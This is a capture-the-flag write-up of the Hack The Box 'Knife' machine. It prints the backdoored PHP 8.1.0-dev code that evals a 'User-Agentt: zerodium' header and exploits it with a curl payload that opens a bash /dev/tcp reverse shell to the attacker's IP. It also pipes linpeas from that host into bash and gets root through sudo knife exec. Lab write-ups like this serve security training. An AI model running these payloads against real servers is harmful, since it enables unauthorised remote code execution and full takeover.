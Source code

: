 ```yaml
---
title: Knife Machine HTB
excerpt: Knife is an easy difficulty Linux machine that features an application which
  is running on a backdoored version of PHP. This vulnerability is leveraged to obtain
  the foothold on the server. A sudo misconfiguration is then exploited to gain a
  root shell.
coverImage: "/assets/blog/knife/knife.jpeg"
date: 2021-08-16T05:35:07.322Z
author:
  name: W0lf15
  picture: "/assets/blog/authors/w0lf15.png"
ogImage:
  url: "/assets/blog/knife/knife.jpeg"
difficulty: easy

---
```

## Skills Required

- Enumeration
- Basic Knowledge of Linux
- OWASP Top 10

## Skills Learned

- Web Exploitation
- Knife Sudo Exploitation

## Enumeration

```shell
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr
'\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.242
```

Nmap scan reveals that the target server has two ports open: 22 and 80.

Apache is hosting an Emergent Medical Idea application. There's nothing interesting in this application.

### FFUF

Let's enumerate files and folders using `ffuf` utility.

Nothing interesting from the results. We send a cURL request to `index.php` page and observe the
response headers.

X-Powered-By header reveals that the application is using PHP/8.1.0-dev version. Searching
vulnerabilities related to this version reveals that it has a known RCE <a href="https://www.exploit-db.com/exploits/49933">exploit</a>.

```php
{
 zval zoh;
 php_output_handler *h;
 zval *enc;
 if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY ||
zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
 (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]),
"HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
 convert_to_string(enc);
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
 zend_try {
 zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid
2017");
 } zend_end_try();
 }
 }
 switch (ZLIBG(output_compression)) {
 case 0:
```

The code checks for the first occurance of zerodium string in User-Agentt request header. If found, it
then executes the code after that string.

```php
zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

```shell
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl
10.10.14.177");'
```

After successfully receive the request we fire up a listener on port 1234 and send below request to obtain
the reverse shell.

```shell
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Let's setup a listener on port 80 and verify this by sending a cURL request to our server.

This is indeed successful and a shell as james is received.

## Privilege Escalation

Having foothold on the server, it is possible to enumerate the different ways to escalate privileges. We
enumerate the server using scripts such as <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> or <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">linPEAS.sh.</a> We download the script and copy it to the apache web root path. Next, we use curl to transfer and execute the script.

```shell
curl 10.10.14.177/linpeas.sh|bash
```

Output shows that james is allowed to run knife as root. Knife tool provides an interface to manage Chef
automation server nodes, cookbooks, recipes and etc. Knife usage can be read from manpage. Some
examples shows that, it is possible to edit knife data bags using a text editor. We can try that.

```shell
sudo knife data bag create 1 2 -e vi
```

This opens up the vim editor. We type below in the editor to get a shell as root.

```shell
:!/bin/sh
```

This can also be achieved using knife exec sub-command. We can upgrade the shell to a fully interactive.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```

Now it is possible to execute keyboard shortcuts in the shell session. Knife also provides an option exec to
execute ruby scripts. We issue the following command.

```shell
sudo knife exec
```

This opens up an interactive shell to execute the code. We type the code below and press CTRL D to run it.

```shell
exec "/bin/bash"
```

This is successful and a shell as root is obtained. Alternatively the following ways can also be used to obtain
a root shell.

```bash
sudo knife exec --exec "exec '/bin/sh -i'"
```

```bash
echo -n 'exec "/bin/bash -i"' > config.rb
sudo knife user list -c config.rb
```

```

```